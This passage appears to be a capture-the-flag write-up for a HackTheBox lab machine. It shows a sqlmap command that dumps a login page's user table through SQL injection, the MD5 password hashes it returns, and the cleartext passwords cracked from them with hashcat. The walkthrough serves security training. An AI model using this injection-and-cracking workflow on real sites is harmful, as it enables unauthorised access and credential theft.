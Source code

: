 If we try sqlmap we can get a user table with password:

```console
zero@pio$ sqlmap -u 'https://streamio.htb/login.php' --data 'username=test&password=test' --batch --dump
```

We will get the following table:

```
+----+----------+----------------+---------------------------------------+
| id | is_staff | username       | password                              |
+----+----------+----------------+---------------------------------------+
|  3 | 1        | James          | c660060492d9edcaa8332d89c99c9239      |
|  4 | 1        | Theodore       | 925e5408ecb67aea449373d668b7359e      |
|  5 | 1        | Samantha       | 083ffae904143c4796e464dac33c1f7d      |
|  6 | 1        | Lauren         | 08344b85b329d7efd611b7a7743e8a09      |
|  7 | 1        | William        | d62be0dc82071bccc1322d64ec5b6c51      |
|  8 | 1        | Sabrina        | f87d3c0d6c8fd686aacc6627f1f493a5      |
|  9 | 1        | Robert         | f03b910e2bd0313a23fdd7575f34a694      |
| 10 | 1        | Thane          | 3577c47eb1e12c8ba021611e1280753c      |
| 11 | 1        | Carmon         | 35394484d89fcfdb3c5e447fe749d213      |
| 12 | 1        | Barry          | 54c88b2dbd7b1a84012fabc1a4c73415      |
| 13 | 1        | Oliver         | fd78db29173a5cf701bd69027cb9bf6b      |
| 14 | 1        | Michelle       | b83439b16f844bd6ffe35c02fe21b3c0      |
| 15 | 1        | Gloria         | 0cfaaaafb559f081df2befbe66686de0      |
| 16 | 1        | Victoria       | b22abb47a02b52d5dfa27fb0b534f693      |
| 17 | 1        | Alexendra      | 1c2b3d8270321140e5153f6637d3ee53      |
| 18 | 1        | Baxter         | 22ee218331afd081b0dcd8115284bae3      |
| 19 | 1        | Clara          | ef8f3d30a856cf166fb8215aca93e9ff      |
| 20 | 1        | Barbra         | 3961548825e3e21df5646cafe11c6c76      |
| 21 | 1        | Lenord         | ee0b8a0937abd60c2882eacb2f8dc49f      |
| 22 | 1        | Austin         | 0049ac57646627b8d7aeaccf8b6a936f      |
| 23 | 1        | Garfield       | 8097cedd612cc37c29db152b6e9edbd3      |
| 24 | 1        | Juliette       | 6dcd87740abb64edfa36d170f0d5450d      |
| 25 | 1        | Victor         | bf55e15b119860a6e6b5a164377da719      |
| 26 | 1        | Lucifer        | 7df45a9e3de3863807c026ba48e55fb3      |
| 27 | 1        | Bruno          | 2a4e2cf22dd8fcb45adcb91be1e22ae8      |
| 28 | 1        | Diablo         | ec33265e5fc8c2f1b0c137bb7b3632b5      |
| 29 | 1        | Robin          | dc332fb5576e9631c9dae83f194f8e70      |
| 30 | 1        | Stan           | 384463526d288edcc95fc3701e523bc7      |
| 31 | 1        | yoshihide      | b779ba15cedfd22a023c4d8bcf5f2332      |
| 33 | 0        | admin          | 665a50ac9eaa781e4f7f04199db97a11      |
+----+----------+----------------+---------------------------------------+
```

If we try offline cracking (hashcat 0 mode) them we can found a bunch of credentials:

```
##123a8j8w5123##  (Lauren)
!!sabrina$        (Sabrina)
highschoolmusical (Thane)
$hadoW            (Barry)
!?Love?!123       (Michelle)
!5psycho8!        (Victoria)
%$clara           (Clara)
physics69i        (Lenord)
$3xybitch         (Juliette)
$monique$1991$    (Bruno)
66boysandgirls..  (yoshihide)
paddpadd          (admin)
```
